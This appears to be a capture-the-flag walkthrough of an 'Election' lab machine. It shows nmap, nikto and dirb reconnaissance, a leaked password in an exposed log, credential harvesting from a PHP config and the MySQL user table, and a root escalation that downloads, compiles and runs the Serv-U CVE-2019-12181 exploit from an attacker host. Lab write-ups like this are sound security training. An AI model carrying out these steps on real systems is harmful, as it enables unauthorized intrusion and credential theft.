

Nmap scan report for 192.168.56.104
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
crazyeights@es-base:~$ nmap -A -p- 192.168.56.104
Starting Nmap 7.80 ( https: //nmap.org ) at 2020-07-24 17:45 EDT
Nmap scan report for 192.168.56.104
Host is up ( 0.000099 s latency).
Not shown: 65533 closed ports
PORT
STATE SERVICE VERSION
22 /tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80 /tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server- header: Apache/ 2.4.29 (Ubuntu)
|_http- title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe: / o:linux: linux_kernel
Checked Index.
Ran nikto to check server for configuration:
crazyeights@es-base:~$ nikto -h http://192.168.56.104
[SNIP]
+ /phpmyadmin/: phpMyAdmin directory found
Went to phpmyadmin, checked default credentials
crazyeights@es-base:~$ dirb http: //192.168.56.104
---- Scanning URL: http: //192.168.56.104/ ----
+ http: //192.168.56.104/index.html (CODE:200|SIZE:10918)
==> DIRECTORY: http: //192.168.56.104/javascript/
+ http: //192.168.56.104/phpinfo.php (CODE:200|SIZE:95517)
==> DIRECTORY: http: //192.168.56.104/phpmyadmin/
+ http: //192.168.56.104/robots.txt (CODE:200|SIZE:30)
+ http: //192.168.56.104/server-status (CODE:403|SIZE:279)
Contains folders:
admin
wordpress
user
election
Checked admin/, wordpress/, and user/ - got 404 for all
election directory does not give 404, rerunning dirb from election:
crazyeights@es-base:~$ dirb http://192.168.56.104/election
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.56.104/election/ ----
==> DIRECTORY: http://192.168.56.104/election/admin/
==> DIRECTORY: http://192.168.56.104/election/data/
+ http://192.168.56.104/election/index.php (CODE:200|SIZE:7003)
==> DIRECTORY: http://192.168.56.104/election/js/
==> DIRECTORY: http://192.168.56.104/election/languages/
==> DIRECTORY: http://192.168.56.104/election/lib/
==> DIRECTORY: http://192.168.56.104/election/media/
==> DIRECTORY: http://192.168.56.104/election/themes/
---- Entering directory: http://192.168.56.104/election/admin/ ----
==> DIRECTORY: http://192.168.56.104/election/admin/ajax/
==> DIRECTORY: http://192.168.56.104/election/admin/components/
==> DIRECTORY: http://192.168.56.104/election/admin/css/
==> DIRECTORY: http://192.168.56.104/election/admin/img/
==> DIRECTORY: http://192.168.56.104/election/admin/inc/
+ http://192.168.56.104/election/admin/index.php (CODE:200|SIZE:8964)
==> DIRECTORY: http://192.168.56.104/election/admin/logs/
[SNIP]
Checked election/admin: Dead End.
http: //192.168.56.104/election/admin/logs/
File system.log
Contents:
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love' .
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
Tried credentials with SSH.
crazyeights@es-base:~$ ssh love@192.168.56.104
Finding user flag:
love@election:~$ ls -R
.:
Desktop Documents Downloads Videos Music Pictures Public Templates
./ Desktop:
user.txt
love@election:~$ cat Desktop/user.txt
cd38ac698c0d793a5236d01003f692b 0
love@election:~$ id
uid=1000(love) gid=1000(love)
groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin), 126(sambashare)
love@election:~$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description: Ubuntu 18.04.4 LTS
Release: 18.04
Codename: bionic
love@election:~$ find / -group adm -type f 2>/dev/null
love@election:/$ cat /var/www/html/election/admin/inc/conn.php
$db_host = "localhost" ;
$db_user = "newuser" ;
$db_pass = "password" ;
$db_name = "election" ;
On the host login to mysql:
love@election:/etc/mysql$ mysql -u newuser -p'password' -h localhost -D election
MariaDB [election]> show;
+---------------------+
| Database |
+---------------------+
| election |
| information _schema |
| mysql |
| performance_ schema |
+---------------------+
4 rows in set (0.00 sec)
MariaDB [election]> use mysql;
Database changed
MariaDB [mysql]> show tables;
MariaDB [mysql]> select * from user;
In table:
| localhost | root | *9CFBBC772F3F6C106020035386DA5BBBF1249A11 | Y
Google it: 9CFBBC772F3F6C106020035386DA5BBBF1249A11 :toor
love@election:/etc/mysql$ su root
Password:
su: Authentication failure
Not the root password.
love@election:~$ find / -group www-data -type f 2>/dev/null
There is file /var/www/.bash_history
love@election:~$ cat /var/www/.bash_history
...
Is a dead-end
love@election:~$ find / -perm /4000 2>/dev/null
....
/usr/local/Serv-U/Serv-U
Using CVE-2019-12181 Serv-U 15.1.6 Privilege Escalation
The server version information is in Serv-U-StartupLog.txt
love@election:/usr/local/Serv-U$ cat Serv-U-StartupLog.txt
[01] Sat 25 Jul 20 03:12:49 - Serv-U File Server (64 -bit) - Version 15.1
(15.1.6.25) - (C) 2017 SolarWinds Worldwide, LLC. All rights reserved.
Download the exploit:
love@election:~$ wget http://192.168.56.1/47009.c
Compile and run the exploit:
love@election:~$ gcc -o pe 47009.c
love@election:~$ ./pe
uid=0 (root) gid=0 (root)
groups=0(root), 4(adm), 24(cdrom), 30(dip), 33(www-data), 46(plugdev), 116(lpadmin), 126(sambashare), 1000(love)
opening root shell
# cd /root
# ls
root.txt
# cat root.txt
5238feefc4ffe09645d97e9ee49bc3a6
FIN.